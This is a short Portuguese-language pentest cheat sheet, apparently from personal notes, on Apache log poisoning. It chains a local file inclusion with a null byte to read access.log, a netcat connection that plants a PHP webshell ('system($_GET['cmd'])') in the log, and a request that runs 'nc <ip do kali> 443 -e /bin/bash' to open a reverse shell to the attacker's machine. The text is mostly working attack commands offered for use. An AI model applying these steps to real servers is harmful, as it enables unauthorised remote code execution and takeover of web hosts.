 # Log Poisoning

Se os logs do apache, estiverem disponívis via LFI para leitura.

```
/index.php?page=/var/log/apache2/access.log%00
```

Conectar via netcat e enviar um webshell.

```
nc -vnlp 443

nc -v <ip do alvo> 80
<?php system($_GET['cmd']);?>

```

Acessar novamente os logs e irá mostrar que tentou executar o webshell.
Se executou o webshell nos logs do access.log, execute o comando abaixo, para pegar um shell reverso.

```
/index.php?cmd=nc <ip do kali> 443 -e /bin/bash&page=/var/log/apache2/access.log%00

```
